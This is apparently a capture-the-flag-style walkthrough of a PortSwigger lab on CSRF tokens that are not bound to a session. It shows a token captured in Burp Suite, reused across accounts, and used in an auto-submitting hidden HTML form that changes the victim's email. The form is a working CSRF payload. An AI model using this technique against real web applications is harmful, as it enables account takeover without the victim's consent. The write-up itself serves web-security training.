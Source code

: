 ### CSRF where token is not tied to user session : PRACTITIONER

---

Given credentials `wiener:peter` and `carlos:montoya`.
- The goal is to change the email of the victim using a CSRF attack.
- The CSRF tokens in place are not tied to the session.

Logging in with the given credentials.

![](./screenshots/lab1-1.png)

We see this page.

![](./screenshots/lab1-2.png)

We know that the update email is vulnerable to CSRF.

![](./screenshots/lab4-2.png)

Setting a new email and intercepting the request via BURPSUITE PROXY intercept.

![](./screenshots/lab4-3.png)

We take note of the `csrf` token.
```
csrf=pOjNDZWcl2k0UZYAzemdFBo6kChCUluK
```

- After that, we **drop** the request, since these tokens are single use.

Now that we have a csrf token, we try and login with another account.

![](./screenshots/lab4-4.png)

We then go to change the email and capture the request via HTTP history.

![](./screenshots/lab4-5.png)

We can change the `csrf` parameter to the value we got, and see if the response works.

![](./screenshots/lab4-6.png)

We see that it works, therefore, we can use a CSRF token from an account to change the email of a different account.

> Using this, we can craft an HTML payload similar to [[Portswigger/CSRF/Lab 1|Lab 1]] and contained in it, is a hidden parameter called CSRF.

Since the CSRF tokens are single use, we need to log in to wiener and repeat the process above by intercepting a request, capturing the token, and then dropping it.
- We then use that token in the CSRF attack to change Carlos email.

Obtaining wiener's new token.
```
IBay4P2BdyFTs00NNFkuXEncGKiZg02J
```

Crafting the HTML payload and adding a CSRF parameter.

```HTML
<html> 
	<body> 
		<form action="https://0a2800c7036e822588e8111400980066.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="IBay4P2BdyFTs00NNFkuXEncGKiZg02J" />
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

Adding it to exploit server.

![](./screenshots/lab4-7.png)

Delivering the exploit to victim completes the lab.

#### Summary

What happens is that we can reuse tokens but only once, so we get the value of a token and not use it from an account.

We then try to change the email of another user using the token we obtained.

We do that using the HTMl payload we crafted and insert a CSRF token parameter - the one we stole.

The attack works because the application checks csrf tokens and doesn't connect them to sessions once we send the payload.

---

